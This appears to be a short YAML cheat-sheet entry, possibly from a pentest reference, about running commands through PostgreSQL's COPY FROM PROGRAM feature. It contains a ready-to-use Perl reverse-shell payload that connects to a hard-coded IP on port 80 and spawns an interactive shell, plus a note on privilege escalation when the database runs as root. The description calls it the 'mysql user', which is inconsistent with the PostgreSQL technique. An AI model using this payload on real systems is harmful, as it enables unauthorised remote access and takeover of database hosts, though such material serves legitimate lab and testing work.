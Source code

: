 ```yaml
---
functions:
  gain-access:
    - description: Use code execution to pop a shell in the context of the mysql user
      code: |
        version 9.3 +
        CREATE TABLE cmd_exec(cmd_output text);
        COPY cmd_exec FROM PROGRAM '<shell commands>';SELECT * FROM cmd_exec;

        DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM 'perl -e "use Socket;\$i=\"192.168.49.208\";\$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"sh -i\");};"';SELECT * FROM cmd_exec;
        
  privilege-escalation:
    - description: Use code execution to escalate privileges if postgres is running as root
      code: |
        # Same as gain access

resources : |
  https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5
---
```


